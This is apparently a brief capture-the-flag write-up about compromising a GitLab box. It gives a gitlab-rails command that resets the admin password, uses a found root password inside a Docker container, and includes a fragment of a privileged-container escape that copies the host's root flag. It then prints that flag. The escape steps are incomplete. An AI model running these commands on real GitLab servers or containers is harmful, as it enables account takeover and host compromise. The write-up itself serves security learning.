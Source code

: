 ## Foothold

A simple command changes the Gitlab root password:
```
gitlab-rails runner 'user = User.find_by(email: "admin@example.com"); user.password = "pass_peass_pass"; user.password_confirmation = "pass_peass_pass"; user.save!'
```
and you can log in as Gitlab root to the web instance.

## Privilege escalation

The thing is inside a docker container so we need to break out of it. 

- First thing is to use the password 'wW59U!ZKMbG9+*#h' to log into as 'root'. This can not be done by the initial terminal so upgrade it to a `pty` using python.

- Test if the container is privileged by `ip link add dummy0 type dummy`

echo "cat /root/root.txt > $host_path/output" >> /cmd

Root flag: `b7f98681505cd39066f67147b103c2b3`
